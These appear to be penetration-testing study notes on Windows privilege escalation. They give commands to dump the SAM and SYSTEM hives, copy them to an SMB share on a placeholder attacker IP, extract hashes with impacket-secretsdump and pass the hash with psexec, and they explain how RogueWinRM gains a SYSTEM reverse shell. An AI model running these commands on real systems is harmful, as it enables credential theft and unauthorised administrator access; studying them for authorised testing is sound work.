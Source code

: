 # Abusing privileges

**To view the privileges of the current user:**

```powershell
C:\> whoami /priv
```

### SeBackup / SeRestore

The `impacket` tool can be used to perform various tasks such as starting a _SMB_ server, dumping secrets from hives in the Windows registry, and running commands with `psexec`, among many others.

Refer to my `impacket` notes for more information:

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/tools-services/general/impacket" %}

Suppose we have gained a remote shell on a server with the `SeBackUp` and `SeRestore` privileges

```powershell
C:\target> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  ...
SeRestorePrivilege            Restore files and directories  ...
```

Due to the set privileges, we are able to save the contents of the `SAM` and `SYSTEM` hive registry to a location of our choice (`C:\Users\jarrett\system.hive` and `C:\Users\jarrett\sam.hive` in this case):

```powershell
C:\target> reg save hklm\system C:\Users\jarrett\system.hive
C:\target> reg save hklm\sam C:\Users\jarrett\sam.hive
```



The command below starts a simple _SMB_ server on the attacker machine with a network share named `public` pointing to the `share` directory. This allows us to transfer the files from the target machine to the attacker at a particular share point (`share` folder).

_**Attacker machine**_

```bash
attacker@attacker_ip:~$ impacket-smbserver -smb2support -username jarrett -password mynamejeff public share
```



The command below copies the content of `system.hive` and `sam.hive` at the specified directory to the share point on the attacker machine.

_**Target machine**_

```powershell
C:\target> copy c:\users\jarrett\system.hive \\<attacker_ip>\public\
C:\target> copy c:\users\jarrett\sam.hive \\<attacker_ip>\public\

```



**The next few commands should be ran from the attacker machine**

The command below dumps the hashes from the `sam.hive`and `system.hive`files present on the current folder (specified by the `LOCAL` target option).

```bash
attacker@attacker_ip:~/share$ ls 
sam.hive system.hive

attacker@attacker_ip:~/share$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket vxxx - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...:::
Guest:xxx:xxx:xxx::
Administrator:xx12xx:xx34xx::
...
```

The command below uses the hashes found from the `impacket-secretsdump` command above, to authenticate as the _**administrator**_ user. This provides us with a remote shell as the _administrator_ user on the target Windows machine

```bash
attacker@attacker_ip:~/share$ impacket-psexec -hashes xx12xx:xx34xx administrator@10.10.x.x
...

C:\Windows\system32> 
```



### SeImpersonate / SeAssignPrimaryToken

Breakdown of how the `RogueWinRM` exploit tool works (As of time of writing, I wasn't able to find a comprehensive technical guide on how it works. However, I have pieced together the key points from research on the main concepts involved in this exploit):

1.  The Background Intelligent Transfer Service (_BITS_) is started, which automatically initiates a connection to port 5985 (used by _WinRM_) using `SYSTEM` privileges.

    * &#x20;Port 5985 is typically used for the _WinRM_ service, which is simply a port that exposes a _Powershell_ console to be used remotely through the network.&#x20;
    * The SYSTEM-level authenication credentials can be captured from the connection to _WinRM_ on the local target machine (port 5985)&#x20;


2. Due to the `SeImpersonate` and `SeAssignPrimaryToken` privileges being set on the user on the target machine, a malicious payload of choice (specified as argument to the `RogueWinRM` tool) can be ran with SYSTEM-level privileges&#x20;
   * A reverse shell connection can be established to a remote attacker server, essentially providing a SYSTEM-level shell



{% embed url="https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal" %}
BITS service
{% endembed %}

_**Windows privileges to admin list**_

{% embed url="https://github.com/gtworek/Priv2Admin" %}
